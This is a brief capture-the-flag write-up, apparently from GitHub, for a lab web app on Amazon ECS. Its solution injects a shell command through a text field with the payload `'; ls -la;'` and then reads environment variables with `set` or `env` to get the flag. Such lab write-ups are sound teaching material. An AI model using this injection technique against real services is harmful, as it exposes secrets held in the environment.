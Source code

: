 # env vars

## Description
This vulnerable web application is packaged as a docker image and executed as an Amazon ECS Task. The web app attempts to provide an 'encoded' value for text entered in a text entry field on the page.

## Solution
<details>
 <summary>Show solution</summary>
The challenge is to leverage the command injection vulnerability discovered in the `Spiders Web -> Source Code` exercise to find the flag using system environment variables. If you have solved "Source Code" this can be trivially accomplished:

1. Verify the command injection functions by entering: `'; ls -la;'`  
Service Returns:  
 ```ls -la
total 24
drwxr-xr-x 1 root root 4096 Oct 27 02:34 .
drwxr-xr-x 1 root root 4096 Oct 14 03:58 ..
-rw-r--r-- 1 root root  437 Oct 14 03:21 Dockerfile
-rwxr-xr-x 1 root root  643 Oct 14 03:24 app.py
-rw-r--r-- 1 root root 1105 Oct 14 03:58 app.pyc
drwxr-xr-x 2 root root 4096 Oct 13 21:12 templates
```

2. Explore environment variables using linux shell commands: `set` or `env` worked for me  
Service Returns: Necessary information to obtain a flag
</details>
